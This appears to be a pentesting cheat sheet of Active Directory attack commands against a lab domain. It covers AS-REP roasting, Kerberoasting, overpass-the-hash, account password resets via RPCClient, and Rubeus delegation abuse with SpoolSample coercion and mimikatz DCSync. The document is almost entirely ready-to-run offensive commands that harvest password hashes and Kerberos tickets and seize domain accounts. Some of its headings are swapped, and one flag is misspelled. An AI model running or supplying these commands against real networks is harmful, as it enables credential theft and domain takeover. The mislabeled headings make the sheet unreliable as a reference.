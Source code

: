 #### Via RPCClient
```bash
enumdomgroups

querygroup 0x200
```

### ASREPoasting
```bash
python3 impacket/example/GetUserSPNs.py red.com/ -no-pass -dc-ip 10.9.20.10 -userfile users.txt /fomat:hashcat
```
### Kerberoasting
```bash
python3 impacket/example/GetNPUsers.py red.com/kevin:Passw0rd  -dc-ip 10.9.20.10
```
### Overpass the Hash/PTK
```bash
python3 impacket/example/getTGT.py red.com/kevin:Passw0rd
```
### Reset AD Password

#### [Via RPCClient]
```bash
setuserinfo2 lawrencecohen 23 'Passw0rd'
```
## Domain Reconnaissance on Windows
### GPO

Check GPOs which enable group of users have remote access (PsExec, WMI, WinRM, RDP, etc) to specific hosts.

### Kerberoasting
```powershell
rubeus.exe kerberoast /user:svc_sql /nowrap
```
### ASREPRoasting
```powershell
rubeus.exe asreproast /format:hashcat /user:svc_sql /nowrap
```
### Unconstrained Delegation
```powershell
rubeus.exe monitor /interval:1 /filtuser:reddc$ /nowrap

Spoolsample.exe reddc redsqlw

rubeus.exe ptt /ticket:[ticket]

mimikatz # lsadump::dcsync /domain:red.com /user:RED\administrator
```
### Constrained Delegation
```powershell
rubeus.exe tgtdeleg /nowrap

rubeus.exe s4u /impersonate:kevin /user:svc_sql /domain:m3c.local /msdsspn:time/redwebaw.red.com /altservice:cifs,host,http,winrm /ticket:[ticket] /dc:reddc.red.com /ptt
```
### Resource Based Constrained Delegation
```powershell
ipmo .\powermad.ps1
```